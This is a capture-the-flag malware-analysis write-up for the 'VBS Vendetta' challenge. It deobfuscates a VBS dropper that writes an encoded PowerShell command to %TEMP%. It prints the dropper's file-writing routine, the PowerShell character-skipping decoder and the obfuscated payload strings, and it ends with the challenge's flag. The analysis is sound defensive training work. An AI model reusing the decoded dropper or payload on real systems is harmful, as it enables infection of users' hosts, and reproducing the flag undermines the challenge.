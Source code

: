 # VBS Vendetta | Medium (300 Points)

Hi Analyst,

We received an alert for an unusual file that was executed on a user's host which resulted in some strange behaviour. Unfortunately, it is heavily obfuscated so we need your help to see what the final payload is.

Attached is a 7-zip archive containing the malicious VBS script which we acquired from the user's host during our investigation - `56418-MaliciousVBS.7z`. Contained in the 7-zip is the VBS script which we were alerted to, namely `freeRAM.vbs`.

Good Luck

password: `infected`

-----

Once you open `freeRAM.vbs`, you'll notice there are over 4000 lines, most of which begin with  `Rem` (VBS comment) or `Private Const` (variable assignments). These lines are never used by the program, so can be removed via regex:

```
^REM .*
^Private Const .*
^\n\n
```

What remains is a number of calls to `Assimilationist139()` which accepts a single string as an argument, appending this string to a temp file named `Skibsskruerne91.txt`.

```
Set Tolkedes = CreateObject("Scripting.FileSystemObject")

Unquote=Tolkedes.GetSpecialFolder(2) & "\Skibsskruerne91.txt"
...
Sub Assimilationist139(ByVal Skodning)
	Dim Sedeses
	
	Set Sedeses = Tolkedes.OpenTextFile(Unquote, 8, True)

	Sedeses.Write Skodning

	Sedeses.Close
```

We can clean this up for readability.

```
Set FileSystemObjectVar = CreateObject("Scripting.FileSystemObject")

tempFilePath=FileSystemObjectVar.GetSpecialFolder(2) & "\Skibsskruerne91.txt"
...
Sub WriteToLog(ByVal content)
    Dim tempFile
    Set tempFile = FileSystemObjectVar.OpenTextFile(tempFilePath, 8, True)

    tempFile.Write content
    tempFile.Close
End Sub
```

This will create a file within `%TEMP%` from the [GetSpecialFolder function]() with an encoded PowerShell command:

![](/images/vbs_powershell.png)

Cleaning this up in a text editor, we can see three new functions, one of which is most relevant - `albertuss()` which takes a single string as an argument:

```powershell
Function albertuss ([String]$Armariolum215) {
	$Pebermynters=[char][int]$Pebermynters;
	$Stikpiller=$Pebermynters+'ubstring';  # becomes substring
	$Mistletoes=8;
	$Afhudes=Ridefogders($Armariolum215);

	For ($Coapprover=7; $Coapprover -lt $Afhudes; $Coapprover += $Mistletoes) {
		$Dendropogon=$Armariolum215.$Stikpiller.Invoke($Coapprover, 1);
		$Konsistorialkontor=$Konsistorialkontor+$Dendropogon;
	}$Konsistorialkontor;
}
```

Cleaning this up:

```powershell
Function ExtractEveryEighthChar ([String]$inputString) {
    $stepSize = 8
    $stringLength = $inputString.Length
    $resultString = ""

    For ($index = 7; $index -lt $stringLength; $index += $stepSize) {
        $currentChar = $inputString.Substring.Invoke($index, 1)
        $resultString += $currentChar
    }

    return $resultString
}
```

We can write a Python script to extract every letter of each of the strings used in the function calls:

```python
encoded_strings = [" RegistTEkspertrContradaHypothenSabelkas ,insenf BoppeneIncongrrBaadskar,enzinti randlonPr,gresg Ag rsk ", "JennifehPredicttExtremitUnm.ddlpMalkendsAurined:Addi,en/attaina/ Zonet dMetamorrIncir,ui OvereavNeuro.aeg.nandr. Indregg GangshoMu keorohemielygChimangl OrbitseUdebliv.PitchpocInterbloElsewismSyvstje/Carates# Pulver#Afklaps?svendepe Byplanx FormprpAkasastoAnaerobr Ver,entBloddon=Stephan#Bazonbu-Bughind# Hindig# Exocyc#Thermo # Dueu t[ Cormac]Indkald].ectumciAtelierd Narrat=Kveller1Tr nchctAttribunOvervioXd gpengrConvexiXBekranscCowli,ehEndu eovGleaminMBesmokeoPomaryuxGingerlF.ikkestTP,colete skatebWScuddl 7OutdariSLyophillSt.vens3 samariF Ma,vasRArmadae0Skippen#Ud.ikli#ri.stri# No,tra#Vestas.#Repaire#  agocy# Wrangl#Fidusku# C.rame#Hollywo ", "QuintusiSauerkrekvoterexfys,ote ", "Indko,t$,nderbegSkrofu l FactuaoBastonabPlanetgaUnmeedyl Sieurs:FoleykuPExtenderBrayekoeSubnatua KontincZethstehExclaimeCurnst sMander  Sk,somm=Film nd UnsizedS BoghantNigeriaaThermosrPhutplat Forpl.-HathawaBTheodidiEndossetDybl rnsFacitteT minsterM sonsbaFle.gudn MalerlsMultisefNothinge ForstrrKon.ito Underdi-GarageaSSubstano D.urwau An epar Rohanlc ball.teCockney Sideord$A.choreMOpvarmey I,termnhelicota Simu.asNastali2Tr ndse4Renegot8ltgbeck Barrela-KommentD Tekstbe Indb.ss Ventelt VialfuiUngskuen Enter,aSmugkrotKvk eneiImpedimoInf,acenFendill  Unci l$Crunc iS Aoua sc ckeeinhRavespoiCorditizHabitaboGerrigtmSuperdeeGenopnardittiesiGadroona Papste ", "Droumy,$JernfilgIm.odyil  offosoLatrantbSkrmstyaD iverel Megaby:StudebaS telepac,egentshSpelliniTronfraztilfileo.isacchmMat.ikeeDhikrsgrFistelsiForfatta Finans=Escadri$LithopheAcidaspnCoregnavUnassai:CyklonbahovedskpFa,keltp TricoldForsy,iaL.vordet remun.aCoun er ", "WienerpIPachy.emZ osporpCytoanaoPseudoprPregaintDr.kneu-SaucepaMOrlogs.oPplretedUndivulu atomf,lAttentie Sauced Cul,asuBPreexchiR mfiretKej,haasMargentTSvrindurCellarea,loakstnWrinklesSt.tikefOrdrerse oct.merAcetona ", "Impa si$popp.ydgForbog,lA,rsagso strobobLoud rbaSneplovlTju.hne: PreconFholarctr DaahinoD.spitusTab lattCombinef Fangstr KaabesiAcajou e DermossSkaberg=propful(Do.beltTInputsteUn.hospsvernonitRuedesc- OliehoPRynkes,aHo,semotEnt,robhRegiste Pharmac$MegaaraSStjernecOver,tthGo,otheiAfskallzKalendeo isorlimPlannedeAfrignirIndkrediFerdiadaBilleds)gormssk ", "Dis ikoIKabsminfFerashs Mon cid(Stormpr$Jg.rsprPFran,kgrIns.lare JiffphaMy.midoc Rit,alh SlangeeSmykkeasFlui.um.Pikt,grJGodkendoTilemakbConferrSHjforrdtA.tokraa RelatitIrasja e Bestse Bunomas-Puk,erheSailyfaqR micat  Forske$HalvhedI Ba,kgaaGazernetMishandrAbstineoavisartcGaaretnhHerpesteHeterosmIndbe eiHjlan scKursor.aSaddelml Mammit)Faklen  Fortykk{CanafisSInterkitSu erhea Sspejdr Mone.atVetkous-SvedsbySDiagonalBeskydeePointere BambuspMoyit s I.comme1 shiesp}Fjor,reeTjenestlOomancysSoldateeDybdahl{ Tro,heS KondictForkobraBekosterSocialatSanguif- ConchoSEnkeltvlFlygtnieSyno,yme Se.skapKa,abas Delumin1Pigenav;Dobbe rR Diquate ReprodfAndaluslSpati teVideregc Toxifet Udsta.o ,outgjrAnnihili Ant,pazGrundtaidjvlehon iolsflg.hamabl Balloan$ QuelchG Besu.loMetricaoNon,arrsS.aansoeFlimsyssFotoalbkBrillefiMomsersnUnfoxy.}ulovmed ", "Brnds.l$Hugger,g O ertilOch,mysoRetreatbSkrivesaFor,ikllAfvikli:Unvnel.FParrotsr PedelloB weryls RodenstAffarvef Aley.rr skilniimanac seMismatcsMakvrke=overado(SvartbaTminimereGr.tuitsunddragtpre ect-PortepePRemplacaImprgnetAlbedogh Pe.hyd Hitherw$SpingelSRingstec KolerihObskurfi DressrzSaccomyoUninhibmVarmefreDiphyllrUover,oi Lint.laKapacit)Hjlpepr ", "Her.eli$ Skon egsubstanlSanatoroHaandhvbCorrivaaTwitchel orrupt:BestialaRibbonenAflnni,tpen estiHypoders F,rtrycInfrasphXylof,noSwollenl L,anabaHalimous  rappitTho,ougi Rewardc Rumm naForcibllRet inilHyperthyyagouru Afblegn=Spizzer ForvarmGAtomulyeReprimat Ugelan-AvertdeC NemospoForm ivnAuthorit nlbenpeskilrednBesvrlitSouveni Ron edo$HalvgudSGuldrancTjurhnehMelis aiFriz,grz TilhngoInterprmBeyli.aeE.stemprDeglam.iBgededea,jrnsol ", "Headsai$ ForesogSynkronlNyttevioUforgngbOceanolaExquisilDrmmesy: Int,rmBUnivocae mennesfAr illeoCy niderRa,iospdUnreturrEuropewiUdenlann BendtlgKarolinsPrsen,am EarpiciLousedtdUnikkesl AfklapeIsoclinrSavedes2D.missi0affress1Armeni, .anebor=Coconu.  ,ildoe[ StybbaSCh onicyComproms DinarztP,anetaeFlagermm Resinr. BornhoCKvivaleoMetastanEgelkkevBambu reRaisedarStampemtPutativ]Utu.ten:Gennemb:ElectroF Age.dar Ol enbo Subpiam Sop.edB angensaTactualsKondoleeBlndvrk6 udesth4OligospS BredbatMislighrSwordm,iAdolphcnflorifig svajry(Evoluti$Del.algaIndtrkknFormrketPropolsiRoughlesHol quicPreferehFr.sepuo,nytninl H rregaSolcellsMy tiqutKonneksiTricarbcrkeen.eaBitte.ll,lagterlMarblieyFladetp) Volumi ", " esecti$Sin.erlgUncocksl ,atrilo Meg spbSuperdua Stern.lAl onym: Wit.edB Nomadel Vol.nttGeosciee Ti sspsFruticut ZygobreKildetedSpirit.eNeologirHeterolsLakerer Tyrerin=Opspori Trafika[InkonseSTrolde yS rannesArchductUnpervee DiphthmHarmoni. Fjer,kTPigmentevisernexUndershtPistill. Er.ticEKaolinsnRe.eldic PartreoAspirandOveranaiTros.amnKoda.isgBerigei]Maddike:Skyndte:PrettyiAKnbjninSMicromeCTnderenI BogsidIUnfooli..ennemsGRedninge OvervitRaafrugSAthrocytCon inurBathyali gazolynFetichigTapestr(.utobio$ ValutaBApathieeZoologifIncaveroLaputapr discladKattefjrVi orisiDraconin.isarmegKaoli,is Urege.m P.rensi Foruredsprng,rl Fusarie UnsocirSte mti2Indhyll0hemmeli1Pollina)Polyr.y ", " Naturs$UnpagangPro andl Gener onedga,gb SprngsaProbosclEnkelta: EmanerMSovietioOutshamd HammedvKolkhosiCuratiznPragmatdTamponeePurinsbnDrivmid=transvo$RejfernBCand,lllPampin t Neutrae GenoptsAdiaphotThroatle ummertdSalleeteHemocoer Rebaptstimingf.BimahvasNotifi,u Empa sbBo ardosFissipetReferrerpree.apiResi.uan,entefrgDommerk(Kderege3Taragec5Legemli0 Udmeld4Spoke,w3Magneti9Rengjo , Cynanc3Afskrab1 Unperc7gymnasi5 Ukorre0Praefik)Bronkos ", "23QGbBe$FPvmzZ$MGZ5CWIpofWPK1GGocLzjTHpn3KND]wDlifjYXjVibBVQVKJg(VjT]/5hrcSDeNBt8voH0sCgskwyi5PaiA/D@DPzqsyb(NGe6UylO$O=xEqYv]]'KYW6wpGf27IPbNdlrBaWS(/aQvPl$)Lg]g@5djg{zqTpxKz1(J(xW@efNvULsFD8k33GDu7eOC$LbOX9]voljsXa)hyLd2w5@Uvf3xQcF$d6lkb3vimIkF bC7j] QE7EL09jvmdcVGgYaZ2ccNuDjGfPB/sXGI4MofJb9FeBRfdmMO6qMismF5aFctDLB]1XW3jIyLb2wsdzqn35G0Ur/$c0RZcNel57D)SP8ZdHC6YBrS7DbXK@ppeUI8e7 H9rlprjlEflNJQqk82@jM5QZnayNa/MCC4wzguZia}yN79D)2"]

def extract_every_eighth_char(input_string):
    """
    Extracts every 8th character from the input string, starting from index 7.
    """
    return ''.join(input_string[i] for i in range(7, len(input_string), 8))

for s in encoded_strings:
        result = extract_every_eighth_char(s)
        print(result)  # Output will be every 8th character starting from index 7
```

![](/images/vbs_flag.png)

```
flag{1f8e9a5c3b7d2f4e6a1b3c5d7e9f2a4}
```